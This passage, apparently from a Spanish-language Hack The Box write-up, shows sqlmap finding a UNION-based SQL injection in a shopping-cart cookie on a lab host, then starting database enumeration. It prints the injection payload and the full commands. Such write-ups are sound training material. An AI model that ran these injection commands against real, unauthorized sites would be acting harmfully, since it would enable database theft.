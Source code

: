 ```bash
custom injection marker ('*') found in option '--headers/--user-agent/--referer/--cookie'. Do you want to process it? [Y/n/q] Y
[13:49:08] [INFO] testing connection to the target URL
[13:49:09] [INFO] checking if the target is protected by some kind of WAF/IPS
do you want to URL encode cookie values (implementation specific)? [Y/n] Y
[13:49:10] [WARNING] heuristic (basic) test shows that (custom) HEADER parameter 'Cookie #1*' might not be injectable
[13:49:10] [INFO] testing for SQL injection on (custom) HEADER parameter 'Cookie #1*'
[13:49:10] [INFO] testing 'Generic UNION query (NULL) - 3 to 3 columns (custom)'
[13:49:10] [WARNING] applying generic concatenation (CONCAT)
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] Y
[13:49:19] [WARNING] if UNION based SQL injection is not detected, please consider forcing the back-end DBMS (e.g. '--dbms=mysql') 
[13:49:28] [INFO] (custom) HEADER parameter 'Cookie #1*' is 'Generic UNION query (NULL) - 3 to 3 columns (custom)' injectable
[13:49:28] [INFO] checking if the injection point on (custom) HEADER parameter 'Cookie #1*' is a false positive
(custom) HEADER parameter 'Cookie #1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 57 HTTP(s) requests:
---
Parameter: Cookie #1* ((custom) HEADER)
    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns (custom)
    Payload: custom_cart={"' UNION ALL SELECT NULL,CONCAT(CONCAT('qbvxq','akhkRfbZMyGKFMPlIIUUEdVYusxoaPPPCiCcwGFl'),'qpxzq'),NULL-- gpdE":"1"}
---
[13:49:31] [INFO] testing MySQL
[13:49:31] [INFO] confirming MySQL
[13:49:32] [INFO] the back-end DBMS is MySQL
web application technology: Nginx 1.18.0
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[13:49:33] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/checkout.shared.htb'

[*] ending @ 13:49:33 /2023-06-13/
```

Ahora podemos decirle que haga una enumeración de las bases de datos

```bash
❯ sqlmap -u "https://checkout.shared.htb/" --cookie='custom_cart={"*":"1"}' --technique U --union-cols 3 --batch --dbs
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.6.12#stable}
|_ -| . [)]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 13:50:15 /2023-06-13/

custom injection marker ('*') found in option '--headers/--user-agent/--referer/--cookie'. Do you want to process it? [Y/n/q] Y
[13:50:15] [INFO] resuming back-end DBMS 'mysql' 
[13:50:15] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: Cookie #1* ((custom) HEADER)
```